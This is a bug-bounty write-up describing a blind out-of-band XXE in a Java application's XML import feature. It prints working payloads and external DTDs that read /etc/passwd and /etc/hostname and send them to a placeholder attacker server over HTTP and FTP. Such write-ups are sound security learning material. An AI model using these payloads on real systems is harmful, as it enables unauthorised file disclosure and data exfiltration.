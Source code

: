 ```yaml
---
title: "[EN] - Exploiting my first XXE (OOB) "
date: 2020-02-16T17:00:00+02:00
draft: false
tags: ["BugBounty", "XXE", "Tips", "Writeup"]
---
```


Recently on a BugBounty program I came across my first XXE, blind what's more, as I found this case interesting I wanted to share it here.

## Recon
The recognition phase is quite basic, the scope is composed of a single URL with 2 distinct backends (administrators and users). For each of these backends the users' view is limited according to the rights they have.
* https://domain.tld/admin => URL for admin backend
* https://domain.tld/users => URL for users backend

I started to navigate in the application and all the tabs to understand how it works, although the scope is reduced the application is not very intuitive which makes its understanding a bit complicated.

After a few vulnerabilities found, the application seems rather robust, no "easy vulnerability", however, my eye is focused on a parameter of the admin side configuration page, a parameter named "tag configuration for XML file import". Hum interesting ... I quickly searched or imported an XML file, this import is not on the admin side but on the user side.

## Never trust ~~user input~~ application message
Luckily, the import page also allows you to download a template that will be valid for the application. So I downloaded this template and added a payload to display the content of */etc/passwd* but ... error message : "Invalid XML file (possible causes could be the use of DTDs or external entities for example)".

Hum... yet the response time of the server intrigued me. Rather than directly pointing me to an error, there was a loading time. Well... let's try something else.

Rather than trying to display the content of a file, I tried to see the use of ENTITIY is possible by forcing the server to make a request to my burp collaborator by including the following payload directly in the XML file :

```xml
<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://{BURP_COLLABORATOR_URL}/"> %ext;]>
```

I upload and hop ... after a few seconds, an HTTP request to my burp collaborator. So despite the error message, the file is well parsed and it is possible to use ENTITIES

![](/images/2020/bounty/XXE_OOB_Burp_Collaborator_Client.png)

## Exploitation

All right, cool, let's try something else. I tried to extract the content from /etc/passwd and send it to my burp collaborator (blind XXE to exfiltrate data out-of-band) :
```xml
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "http://{BURP_COLLABORATOR_URL}/?%xxe;">]>
<foo>&callhome;</foo>
```

But... nothing. Okay, so then I tested it with an external dtd (In my case, I used an external server (VPS) with a python web server (`python3 -m http.server 80`) to deliver the payload and retrieve the content :

*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff SYSTEM "file:///etc/pasword">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/?data=%stuff;'>">
```

I save, I up the server, I send back the malicious XML file, the server comes to get my DTD and sends me back but without the content of the file */etc/passwd* ... what ????

I do not despair and I tried with a dtd of test to see if I recover well the desired value, this dtd is thus just used to validate that I recover well the parameter "toto" : 

*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff "toto">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/p?data=%stuff;'>">
```

Let's start again, I save, I up the server, I send back the XML file, the server retrieves the DTD and I have the return with the value *toto* in the variable *?data=*.

After some research I saw that it was sometimes not possible to extract the contents of a file that includes some characters or line breaks (which is the case of */etc/passwd*).

In PHP it would have been possible to use a dtd like this:
```xml
<!ENTITY % stuff SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/p?data=%stuff;'>">
```

To encode the whole thing in base64, the return of the complete file would have been done, you would have just had to decode it to get the whole file. Unfortunately the backend here is Java and I couldn't find an alternative.

So before digging I tried another file, */etc/hostname* :  
*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff SYSTEM "file:///etc/hostname">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/?data=%stuff;'>">
```

Once again, I restart the web server, I send the XML, the server comes looking for my DTD and boom! the content of /etc/hostname is added as a parameter to the *?data=* variable.

This could have been enough as PoC but I kept on digging. Don't settle for the simplest, try to demonstrate the impact of your vulnerabilities !

## Digging

After some research I saw that it is possible to use the FTP protocol, which seems to be less troublesome than the *file://* wrapper for data extraction like this :

*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'ftp://{MY_SERVER_IP}/%stuff;'>">
```

For the FTP server, I used [xxeserv](https://github.com/staaldraad/xxeserv) which is specially designed for data extraction via FTP with a XXE OOB.

Here we go again. restart the web server, I send the XML, the server comes looking for my DTD and boom! Oh no ... only a partial content of /etc/passwd is displayed :

![](/images/2020/bounty/XXE_OOB_Etc_Passwd.png)

After some research this is related to the version of Java used and unfortunately I have not found a solution to this problem.

## Conclusion

So I found other leaks that I could extract and made my report.
Unfortunately... duplicate ¯\_(ツ)_/¯

The labs etc... are very good for training but we are often far from reality, despite having done a lot of labs dealing with the twentieth century I still spent time to successfully exploit it and for the blow despite this duplicate, this vulnerability has taught me a lot, what better for a first XXE (in bugbounty) than a XXE OOB blind especially since it was even more formative by showing that it is necessary not to stop at the first inconclusive attempt.
